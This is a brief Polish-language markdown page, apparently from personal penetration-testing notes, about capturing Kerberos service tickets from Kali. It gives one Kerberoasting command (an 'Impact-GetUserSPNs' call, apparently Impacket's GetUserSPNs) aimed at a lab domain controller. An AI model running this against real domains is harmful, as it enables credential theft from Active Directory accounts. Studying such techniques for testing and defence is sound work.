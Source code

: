 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Impact-GetUserSPNs

przechwytywanie ticketów poprzez Kaliego

{% code overflow="wrap" fullWidth="true" %}
```
Impact-GetUserSPNs -request -target-domain cyber.local -dc-ip 10.20.10.5 cyber.local/minniem
```
{% endcode %}
